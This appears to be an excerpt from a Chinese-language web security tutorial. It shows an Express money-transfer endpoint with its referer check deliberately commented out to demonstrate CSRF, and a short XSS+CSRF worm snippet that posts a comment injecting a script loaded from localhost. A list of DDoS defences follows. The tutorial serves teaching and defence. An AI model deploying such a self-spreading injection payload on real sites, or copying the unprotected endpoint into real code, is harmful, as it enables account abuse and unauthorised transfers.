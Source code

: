 
server.js

```js
app.post('/api/transfer', function (req, res) {
    // let referer = req.headers['referer'];
    //if (/^https?:\/\/localhost:3000/.test(referer)) {
    let { target, amount, clientToken, captcha } = req.body;
    amount = isNaN(amount) ? 0 : Number(amount);
    let { username, token } = userSessions[req.cookies.sessionId];
    if (username) {
        if (clientToken == token) {
            let user;
            for (let i = 0; i < users.length; i++) {
                if (username == users[i].username) {
                    users[i].money -= amount;
                } else if (target == users[i].username) {
                    users[i].money += amount;
                }
            }
            res.json({ code: 0 });
        } else {
            res.json({ code: 1, error: '违法操作' });
        }
    } else {
        res.json({ code: 1, error: '用户没有登录' });
    }
    //} else {
    res.json({ code: 1, error: 'referer不正确' });
    //}
})
```


#### 2.2.4 xss+csrf(蠕虫)

不断传播的xss+csrf攻击 worm.js

    const attack = '<script src="http://localhost:3001/worm.js"></script>';
    $.post('/api/comments', { content: 'haha' + attack });


3\. DDOS攻击 
-----------------------------

分布式拒绝服务(Distribute Denial Of Service)

*   黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
*   验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
*   限制请求频率是我们最常见的针对 DDOS 攻击的防御措施。其原理为设置每个客户端的请求频率的限制
*   增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
*   设置自己的业务为分布式服务，防止单点失效
*   使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
*   优化资源使用提高 web server 的负载能力

4\. HTTP劫持
-----------------------------
